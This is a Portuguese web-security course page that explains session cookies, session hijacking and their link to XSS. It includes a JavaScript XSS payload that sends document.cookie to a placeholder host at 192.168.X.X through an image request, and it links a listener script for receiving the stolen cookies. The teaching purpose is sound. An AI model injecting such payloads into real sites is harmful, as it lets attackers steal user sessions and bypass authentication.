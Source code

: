 ## Cookies

![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/pexels/sinmocx.jpg)

Toda conexão estabelecida entre o Cliente e o Servidor constitue uma **Sessão**, essa sessão é atribuida pelo servidor após execução do processo de conexão no formato "Three Way Handshake" comentado no começo do curso, possuindo uma numeração de identificação baseado em uma tabela chave valor armazenada no servidor, seu uso entre outras funções permite ao servidor identificar o usuário que esta executando a conexão. essa informação também é conhecida pelo Browser do usuária sendo recebida do servidor em uma resposta que chamamos de **Cookie**;

Podemos verificar a existência de Cookies de sessão inspecionando os elementos da Guia Network no acesso a qualquer página web:

![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/images/7.2cookiesFiap.png)

Verifique que neste caso temos o item Cookie com um número de identificação da sessão. Esse número é único e assim será diferente para qualquer outra sessão aberta, faça teste executando o mesmo procedimento a partir de outro Brownser por exemplo ou em uma janela Anônima.

### O conceito de sequestro de sessão:

Ataques baseados em sequestro de sessão utilizam mecanismos de exploits baseados na tentativa de controle dos cookies e tokens de acesso em sessões de usuários, quando essas sessões envolvem autenticação prévia, ou seja roubando a sessão estamos executando um by pass na autenticação e recebendo acesso a páginas e conteúdos que supostamente só deveriam ser acessíveis aos usuários autenticados.

Um token de sessão é normalmente composto por uma string de largura variável e pode ser usado de diferentes maneiras, como na URL, no cabeçalho da requisição http como um cookie ( Modelo que vimos a pouco ), ou em outras partes do cabeçalho ou corpo da requisição http.

Utilizando código JavaScript um Cookie de sessão pode ser obtindo da seguinte forma:

```sh
<script>
alert(document.cookie);
</script>
```

> Neste caso trata-se do Cookie de sua própria sessão o que ainda não configura um processo de sequestro de sessão propriamente dito;

***Como o XSS se relaciona ao Sequestro de Sessão?***

O ponto onde o Cookie de sessão e a exploração de XSS baseado em Javascript se encontram é exatamente no resgate e envio dessa informação a terceiros, uma vez que um usuário esteja em uma área autenticada, o cookie de sessão é uma informação preciosa que utilizado da maneira certa permitiria o acesso ao conteúdo autenticado "simulando" estar na sessão do usuário, Existem certas formas de obter essa informação o principio basico por trás da maioria delas é forçar a execução de código pelo Browser do usuário de forma que o próprio usuário entregue a informação sem perceber;

***Demonstração de roubo de sessão:*** 

No exemplo abaixo utilizaremos uma imagem como base para conseguir isso, essa imagem será seguida pela requisição de acesso ao cookie do usuário:

```sh
Hi Everone...
<script>
var imagem=new Image();
imagem.src="http://192.168.X.X?"+document.cookie;
</script>
```

Na demonstração acima temos o campo "http://192.168.X.X" com endereço do host que receberá o cookie enviado pelo browser e a propriedade ***?"+[document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)*** utilizada para recuperar o cookie associado a sessão no momento em que executamos um GET no conteúdo do blog;

> Para que alguma ação baseada no conceito acima seja bem sucedida será necessário que no endereço de destino o host seja preparado para receber a informação enviada pelo brownser dos usuários que acessaram a página com o código XSS implementado, isso pode ser feito de "N" formas, usando webservers ou aplicações simples como um [script python](https://github.com/fiapfiap/Sec/blob/master/scripts/listen.py);

# Material de Referência

Boa parte dessa aula baseia-se em uma publicação de Prakhar Prasad pela editora Packt:

* [Livro, Mastering Modern Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-modern-web-penetration-testing)


O curso da [Alura]() sobre Segurança Web apresenta alguns conceitos muito legais sobre sequestro de sessão e XSS usando como base a plataforma OWASP:

* [Curso Segurança Web: Vulnerabilidades do seu sistema e OWASP
](https://cursos.alura.com.br/course/seguranca-web-vulnerabilidades-do-seu-sistema)


Detalhamento Técnico sobre a propriedade document.cookie fornecida pelo MDN:

* [Document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)

---

**Free Software, Hell Yeah!**
